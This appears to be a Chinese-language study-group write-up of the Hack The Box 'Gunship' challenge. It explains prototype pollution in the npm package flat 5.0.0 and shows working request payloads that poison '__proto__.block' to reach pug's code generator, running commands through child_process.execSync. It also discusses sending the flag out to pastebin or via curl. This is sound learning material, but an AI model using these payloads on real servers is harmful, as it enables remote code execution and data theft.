








# 這是一道「非常簡單」的題目 

讀書會報告 #1。

<!-- TOC depthfrom:2 orderedlist:false -->

- [緣起](#%E7%B7%A3%E8%B5%B7)
- [正文](#%E6%AD%A3%E6%96%87)
    - [釐清狀況](#%E9%87%90%E6%B8%85%E7%8B%80%E6%B3%81)
    - [部署本機測試環境](#%E9%83%A8%E7%BD%B2%E6%9C%AC%E6%A9%9F%E6%B8%AC%E8%A9%A6%E7%92%B0%E5%A2%83)
        - [方法一（HTB 原本設計的方法）](#%E6%96%B9%E6%B3%95%E4%B8%80htb-%E5%8E%9F%E6%9C%AC%E8%A8%AD%E8%A8%88%E7%9A%84%E6%96%B9%E6%B3%95)
        - [方法二（方便 debug 的方法）](#%E6%96%B9%E6%B3%95%E4%BA%8C%E6%96%B9%E4%BE%BF-debug-%E7%9A%84%E6%96%B9%E6%B3%95)
    - [找出破口](#%E6%89%BE%E5%87%BA%E7%A0%B4%E5%8F%A3)
        - [原型鍊污染](#%E5%8E%9F%E5%9E%8B%E9%8D%8A%E6%B1%A1%E6%9F%93)
        - [漏洞的概念驗證](#%E6%BC%8F%E6%B4%9E%E7%9A%84%E6%A6%82%E5%BF%B5%E9%A9%97%E8%AD%89)
    - [實戰：嘗試使用漏洞](#%E5%AF%A6%E6%88%B0%E5%98%97%E8%A9%A6%E4%BD%BF%E7%94%A8%E6%BC%8F%E6%B4%9E)
        - [瀏覽器端的請求模板](#%E7%80%8F%E8%A6%BD%E5%99%A8%E7%AB%AF%E7%9A%84%E8%AB%8B%E6%B1%82%E6%A8%A1%E6%9D%BF)
        - [嘗試污染 String](#%E5%98%97%E8%A9%A6%E6%B1%A1%E6%9F%93-string)
        - [污染 Object 的兩個選擇](#%E6%B1%A1%E6%9F%93-object-%E7%9A%84%E5%85%A9%E5%80%8B%E9%81%B8%E6%93%87)
        - [污染 pug.compiler](#%E6%B1%A1%E6%9F%93-pugcompiler)
        - [注入任意指令](#%E6%B3%A8%E5%85%A5%E4%BB%BB%E6%84%8F%E6%8C%87%E4%BB%A4)
    - [實戰：把 flag 偷渡出來](#%E5%AF%A6%E6%88%B0%E6%8A%8A-flag-%E5%81%B7%E6%B8%A1%E5%87%BA%E4%BE%86)
        - [嘗試使用 fetch](#%E5%98%97%E8%A9%A6%E4%BD%BF%E7%94%A8-fetch)
        - [嘗試使用 curl](#%E5%98%97%E8%A9%A6%E4%BD%BF%E7%94%A8-curl)
        - [嘗試從請求輸出](#%E5%98%97%E8%A9%A6%E5%BE%9E%E8%AB%8B%E6%B1%82%E8%BC%B8%E5%87%BA)
- [雜談](#%E9%9B%9C%E8%AB%87)

<!-- /TOC -->

****

## 緣起
因緣際會發現了一個網站，叫 [Hack The Box](https://app.hackthebox.com/home)。  
由於小時候就對資安攻防戰感到相當好奇，但一直不知道如何開始，也一直對其感到畏懼，這回看到這個網站時倍感驚豔，因此決定嘗試入門。  

在做完幾個基本的教學關卡後，我決定嘗試一道挑戰題。  
當時我想找個簡單的題目驗證看看自己到底在什麼水準，於是找了一題難度標示爲 `VERY EASY` 的題目，叫做 `Gunship`，並且在開始之前就決定這題目只能靠自己去解決，殊不知這一解就過了一個多月，過程可謂是痛不欲生，於是有了這篇文章。

## 正文
### 釐清狀況
剛開始我就愣住了，因爲下載必要文件時得到了一個壓縮檔，裡面看起來像是這個網站的原始碼...  
大概是因爲這是我的第一個挑戰，所以很多題目的「基本設定」都還沒有概念，所以才有這個疑慮。  
（原始碼放在 [gunship](./gunship/) 裡面）


總之目標就是**從原始碼中嘗試找出可以利用的漏洞，然後取得 flag 即可**。

### 部署本機測試環境
#### 方法一（HTB 原本設計的方法）
這個並不難，只要在 Linux 環境並有安裝 docker 的情形下，在 [gunship](./gunship/) 裡面執行 `chmod +x build-docker.sh; ./build-docker.sh` 即可。  
執行後即可在 `http://localhost:1337/` 看到網頁。

#### 方法二（方便 debug 的方法）
不想用 docker 也沒關係，在 [gunship/challenge](./gunship/challenge/) 底下直接 `npm i; npm run start` 也可以，不過別忘了 Node.js 的環境。  
執行後即可在 `http://localhost:1337/` 看到網頁。



### 找出破口
既然是網頁的話，那估計是從請求下手吧？  
是的，確實是從請求下手。但是沒有我最初想象的那麼單純...

由於處理請求的關鍵檔 [routes/index.js](gunship/challenge/routes/index.js) 實在是出乎意料的單純，因此在這邊又卡了一陣子（詳情略），最後終於從 [package.json](gunship/challenge/package.json) 中找到關鍵：
```json 
"dependencies": {
    "express": "^4.17.1",
    "flat": "5.0.0",
    "pug": "^3.0.0"
}
```

是的，關鍵就是那個寫死版本的 `flat`。  
這玩意我沒看過，不過要找漏洞的話也不難，去問 Google 大神 `npm flat CVE`，然後前幾個就是我要的了。



#### 原型鍊污染
看了一下上述漏洞，可以知道這題的解法是透過原型鍊污染 (Prototype Pollution) 達成的。關於這個手法，這裡簡單介紹一下：  

先看底下的原始碼，這些範例都放在 [scripts](scripts/) 底下了。

[pollution1.js](scripts/pollution1.js)
```js
// 從類別污染
String.prototype.includes = function(){
    return "已污染";
}

// 已污染
console.log("ABC".includes("A"));
```

[pollution2.js](scripts/pollution2.js)
```js
// 從物件污染
"".__proto__.includes = function(){
    return "已污染";
}

// 已污染
console.log("ABC".includes("A"));
```

上述污染的手法其實是同樣的概念，因爲 `<class>.prototype` 與 `<instance>.__proto__` 是完全等價的。對於 `prototype` 與 `__proto__`，這裡就不展開介紹了，有疑惑的話請自行搜尋。

[pollution-note.js](scripts/pollution-note.js)
```js
// true
console.log(String.prototype === "".__proto__);
```

#### 漏洞的概念驗證
既然知道了原型鍊污染是怎麽運作的，接下來來看這個漏洞的概念驗證也就不難理解了。

[poc.js](scripts/poc.js)
```js
// 改寫自 https://security.snyk.io/vuln/SNYK-JS-FLAT-596927
const unflatten = require('flat').unflatten;

unflatten({
    '__proto__.polluted': true
});

// true
console.log(polluted);
```

在上述程式碼中，雖然 `polluted` 沒有定義，但是因爲 `polluted` 會被解釋成 `global.polluted`，而物件的原型鍊被污染 (所有物件的屬性 `polluted` 的預設值都定義爲 `true`)，因此這裡看到的不是 `undefined` 而是 `true`。  
（註：這裡的 `global` 是物件，類似於瀏覽器的 `window` 物件）

當時做到這裡時我就迫不及待想對 `String` 動手腳了，因爲在 [routes/index.js](gunship/challenge/routes/index.js) 裡，在 unflatten 之後最近的程式碼是 `<String>.includes()`，所以要是可以得逞的話，那這題是真的簡單。
```js
router.post('/api/submit', (req, res) => {
    // 漏洞來源
    const { artist } = unflatten(req.body);

    // 我打算從這裡搞事
	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
        // ...
    }
}
```

### 實戰：嘗試使用漏洞
#### 瀏覽器端的請求模板
在測試之前，請先參考測試用的模板程式碼：

[request-template.js](scripts/request-template.js)
```js
// 用於瀏覽器端請求的模板

(()=>{
	console.clear();

	let data = {
		"artist.name": "Haigh"
	};

	fetch("http://localhost:1337/api/submit", {
	  "headers": {
		"content-type": "application/json"
	  },
	  "body": JSON.stringify(data),
	  "method": "POST"
	}).then(
		r => r.text()
	).then(console.log);
})();
```

之後所有由瀏覽器發起的請求都使用上方模板，且只會寫上 `data` 的內容。

#### 嘗試污染 String

嘗試對 `String` 進行原型鍊污染：
[request-string.js](scripts/request-string.js)
```js
// 瀏覽器請求的片段
let data = {
    "artist.name": "Haigh",
    "''.__proto__.includes": () => {
        console.log("<String>.includes");
        return false;
    }
};
```

成功了嗎？不，事情沒有這麼單純，上述請求是沒有用的。  
假如污染成功的話，應該會得到這個回覆： ([routes/index.js#L20](gunship/challenge/routes/index.js#L20))
```json
{"response": "Please provide us with the full name of an existing member."}
``` 
然而實際上執行後得到的回覆依然是： ([routes/index.js#L16](gunship/challenge/routes/index.js#L16))
```json
{"response": "<span>Hello guest, thank you for letting us know!.</span>"}
``` 

後來又改用從類別污染的寫法，依舊沒有效果。

怎麼辦呢？也許是污染的姿勢不對。  
追蹤 unflatten 原始碼後發現污染不到 String 的原型鍊，看起來還是只能對 Object 下手。

（註：截圖內包含一些 console.log 的註解，那是我在學會使用 debugger 之前編輯的...）

#### 污染 Object 的兩個選擇
既然只能污染 Object 的話，那現在有兩個選擇：
1. `res.json()`  
   來自 express 提供的 Response 物件 res
2. `pug.compile()`  
   來自 pug 提供的 pug 物件

兩個都不好下手。  

不過由於 [routes/index.js#L16](gunship/challenge/routes/index.js#L16) 裡面的 `pug.compiler()` 寫得很多此一舉  
感覺很像是題目作者故意弄的...  
那就從 `pug.compiler()` 開始好了。  

#### 污染 `pug.compiler()`
此題最大魔王來了。  

當時嘗試解決這題時，最開始我是使用靜態分析。  
（翻譯：透過 vscode 的 F12 取得函式定義，然後拿關鍵字去搜原始碼，接著透過經驗去推測，以及一堆 console.log）  

面對完全陌生的套件，以及龐大的架構，上述方法肯定是各種翻車。  
（過程中一度看到什麼 Lexer, parser, AST 等等，這裡就省略萬字，不展開討論了）  
~~（反正我也是一知半解）~~  

總之之後改用 debugger 後，再經過漫長的下中斷點與逐步分析，總算是找到突破口：  
在套件 `pug-code-gen` 的 `index.js` 中，第 310 行的 `node.line` 執行過程中可能會出現 `undefined`。  

正常狀況的 `node.line` 是數字：

（第 311 行執行變數 `js` 的組合，可以看到它直接加上 `node.line`）  
（關於這個片段具體在幹嘛，請參考 [附錄文章們](articles/readme.md)）

原本應該要是 `undefined` 的，但是經過原型鍊污染後的 `node.line`：

（從左側的變數 `js` 可以看出，此時的 `node.line` 已經被污染成由 `console` 開頭的內容了，這裡就是關鍵突破口）

此時的請求資料是這個樣子：
[request-pug1.js](scripts/request-pug1.js)
```js
// 瀏覽器請求的片段
let data = {
    "artist.name": "Haigh",
    "__proto__.block": {
        "type": "Text",
        "line": "console.log('pug pollution');"
    }
};
```

執行上述請求後，可以在終端機看到輸出 `pug pollution`，這表示污染成功。  

#### 注入任意指令
接著是嘗試執行指令，這裡可以透過 `process.mainModule.require('child_process').execSync('指令文字')` 來執行任意指令。  

實際的請求資料如下：
[request-pug2.js](scripts/request-pug2.js)
```js
// 瀏覽器請求的片段
let data = {
    "artist.name": "Haigh",
    "__proto__.block": {
        "type": "Text",
        "line": "console.log(process.mainModule.require('child_process').execSync('ls -al').toString())"
    }
};
```
執行結果：

（註：這是執行在 docker，而終端機輸出的 `----[routes]----` 是來自於我在 [routes/index.js](gunship/challenge/routes/index.js) 額外加上的，目的只是爲了分隔各個請求的記錄，無視即可。）

### 實戰：把 flag 偷渡出來
#### 嘗試使用 fetch
興許是平常用瀏覽器寫 js 居多，當時我第一個想到用 ES6 的 `fetch()` 把關鍵內容推到 [pastebin](https://pastebin.com/) 之類的服務，這樣就能看到 flag 的內容了。   
然而一試就知道這是不可行的，因爲 `fetch()` 在瀏覽器上才是原生功能
，如果想要在 node.js 的環境上使用的話，必須安裝 `node-fetch` 套件。  
爲了攻擊而安裝套件？這顯然不合理。

#### 嘗試使用 curl
`fetch` 不可行的話，那使用指令的 `curl` 呢？這東西應該是基本指令吧？  

對不起我錯了。

雖然理論上我應該可以透過指令安裝 `curl`，但是感覺這條路就不是正道，於是我選擇下面的方法。

#### 嘗試從請求輸出
既然我是透過請求發起這一串行爲的，那我應該可以在回覆動點手腳吧？  
幸好，這次真的可以，而且後續回顧的話，我想這應該是題目作者想要我們做的方法。

那，該怎麽做呢？


****
## 雜談
由於探索過程幾乎是遇到一個不懂的就嘗試追溯下去，爲了解決前一個問題於是展開它的技術細節，於是衍生出另一個問題，然後又重複這個流程，結果導致整個探索過程看起來像是這樣：
```
    Start -> Q1 -> Q2 -> Q3 -> ... -> Qn -> Solve
```
因此這篇文章差點被命名爲「深度優先搜尋的弊端」  
~~Uncaught RangeError: Maximum call stack size exceeded~~

不過幸好後來心態調整，決定不要細究，而是選擇性忽略一些太過細節性的東西，這才解決問題。

